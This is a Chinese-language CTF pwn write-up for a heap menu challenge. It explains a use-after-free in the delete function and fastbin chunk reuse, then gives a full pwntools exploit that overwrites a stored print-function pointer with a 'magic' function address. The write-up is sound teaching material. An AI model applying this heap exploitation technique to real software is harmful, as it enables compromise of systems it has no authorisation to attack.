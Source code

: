 ![](../assets/gitbook/images/image-20250804173926420.png)

一道菜单题，方便起见，分别把1到3的函数称为add，delete，show，首先查看一下add函数

![](../assets/gitbook/images/image-20250804174209285.png)

分析一下不难发现，函数的主要逻辑是遍历notelist链表，如果链表某个节点为空那么就在该处申请0x10大小的堆块，接着将print函数的地址存储到堆块的user data的前8字节区域(前面有0x10大小的chunk_header)，然后输入接下来申请堆块的大小，接着在user data+8字节处再申请一个堆块，最后read将用户输入的内容读入到其中

delete函数

![](../assets/gitbook/images/Snipaste_2025-08-04_17-54-06.png)

可以看到delete函数中free了两次，但都没有将相应的指针清零，构成UAF漏洞可以利用

show函数

![](../assets/gitbook/images/image-20250804175822860.png)

输入堆块索引，调用堆块中存储的print函数

程序还给了magic函数

![](../assets/gitbook/images/image-20250804180235954.png)

以上为主要函数逻辑

利用思路：

可以利用delete函数中的UAF漏洞进行利用，先申请两个大堆块(执行两次add函数，实际上堆块中包含堆块，一共4个)把第一个大堆块称为chunk0，第二个称为chunk1，申请chunk0中堆块时，内容可以随便输入，大小可为0x18,0x20,0x28...，但不能为0x10，否则后面利用UAF的时候就无法申请到print函数所在堆块的位置，不能对其进行修改，同样chunk1也不能申请0x10的堆块

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
```

这道题比较少见，有个def函数，里面禁用了gdb的调试功能，导致无法调试，没办法展示调试过程了。。。

然后再把申请的两个chunk给free掉，此时4个chunk中的两个0x20，两个0x30(包含了chunk_head)全处于释放状态，且位于fastbin中的0x20和0x30链表中

```
delete(1)
delete(0)
```

这里释放的顺序需要注意下，由于fastbin是单项链表，遵循先进后出的原理，所以此时两个0x20大小的free_chunk状态是

chunk0->chunk1

接下来再把两个0x20大小的chunk申请回来，add函数中第一个已经帮我们申请了0x10(chunk0)，只要在申请0x10大小(chunk1)就能申请回来，那么此时的chunk0和chunk1都指向print所在位置，且chunk1可以让我们进行修改，把它改为magic，然后再调用show(1)，执行magic拿到flag

```
add(0x10,p64(magic))
show(1)
```

完整exp

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
delete(1)
delete(0)
add(0x10,p64(magic))
show(0)
p.interactive()
```



